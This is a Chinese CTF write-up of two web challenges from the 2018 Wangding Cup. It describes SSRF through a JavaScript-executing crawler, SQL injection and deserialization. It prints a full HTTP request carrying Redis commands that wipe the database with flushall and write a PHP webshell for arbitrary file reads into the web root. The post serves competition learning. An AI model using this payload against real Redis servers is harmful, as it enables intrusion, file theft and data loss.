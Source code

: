```yaml
---
title: 网鼎杯第一场 Web 总结
date: 2018-08-20 11:13:40
tags:
- CTF
- Web
- Exploit
categories: CTF
description: 总结比赛中二道 Web 题目
---
```

一年没做 CTF 了，想来假期无聊去试试这个比赛。Web 题目因为各种原因下午才真正放出

### 【第一题 Spider】 

比赛的官方 wrtieup：<https://mp.weixin.qq.com/s/yZ-Xp32 tCPWbDiFgAHiWgw>

在这题比赛过程遇到的问题：

- 应该先扫目录和文件，CTF 中 robots、flag.php、后台等这类尤其重要
- javascript 运用需要熟练。本题需要 HTTP 访问操作、端口扫描和结合 redis 的 getshell 操作
- 解决 Web 题需要具备的能力：快速搞懂应用流程，建立其运行模型，并且需要猜测服务端的运行原理

这道题的动态爬虫（因为服务端会解析并运行 javascript）导致了一个 SSRF

<https://segmentfault.com/a/1190000004322487>  XMLHttpRequest  教程，分析较深入

![img](https://saferman.github.io/assets/img/ctf/readyState.png)

可以页面调试，发现 readyState 会逐渐变换
XMLHttpRequest.status 返回服务器状态码   浏览器调试发现一直为 0，后来明白执行了跨域操作
编写 Javascript  执行 AJAX 请求和 JS 端口扫描 （参考官方 writeup）



接着根据提示 Redis getShell 和 8000 端口：因为不同端口，所以存在跨域，需要加上 Access-Control-Allow-Origin:* 头部。构造一个 Redis EXP。（参考官方 writeup）

Burp 截包如下：

```
POST / HTTP/1.1
Host: 127.0.0.1:6379
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:61.0) Gecko/20100101 Firefox/61.0
Accept: /
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1/
Content-Length: 320
Content-Type: multipart/form-data; boundary=---------------------------15762740617557
Origin: http://127.0.0.1
Connection: close

-----------------------------15762740617557
Content-Disposition: form-data; name="0"

flushall
config set dir /var/www/html/
config set dbfilename shell.php
set 1 "\n\n<?php header('Access-Control-Allow-Origin:*'); echo file_get_contents($_GET[0]);?>\n\n"
save
quit
-----------------------------15762740617557--
```

至此写入 webshell

### 【第二题 fakebook】

本题就是 SQL+反序列化+LFR，挺简单的

找到页面的注册点，使用 sqlmap 扫出问题然后查看目录的 robots.txt 文件发现有 user.php.bak，下载查看到 UserInfo 类的源码，最后反序列化读取 flag.php 得到 FLAG



